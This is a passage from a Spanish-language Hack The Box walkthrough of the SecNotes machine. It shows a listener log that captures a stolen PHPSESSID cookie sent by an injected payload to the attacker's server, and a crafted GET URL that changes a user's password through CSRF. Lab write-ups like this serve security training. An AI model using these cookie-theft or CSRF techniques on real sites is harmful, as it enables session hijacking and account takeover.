 ```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.27 - - [21/Dec/2021 21:38:00] code 404, message File not found
10.10.14.27 - - [21/Dec/2021 21:38:00] "GET /kamiyo.jpg?cookie=PHPSESSID=oj8st60s6e5jr4bvl102j44dgv HTTP/1.1" 404 -
```

Vemos nuestra cookie de sessión, por lo tanto vamos a mandar la misma injección al usuario **Tyler** en el apartado de **Contact Us**. Sin embargo, no vemos una respuesta por parte del usuario.

![""](/assets/images/htb-secnotes/secnotes-web9.png)

Analizando un poco el sitio web, en el apartado de **Change Password** vemos que la solicitud viaja mediante el método POST; sin embargo, es posible que admita el método GET y una forma de probarlo sería agregando los parámetros en la URL `http://10.10.10.97/change_pass.php?password=hola123&confirm_password=hola123&submit=submit`.

![""](/assets/images/htb-secnotes/secnotes-web10.png)
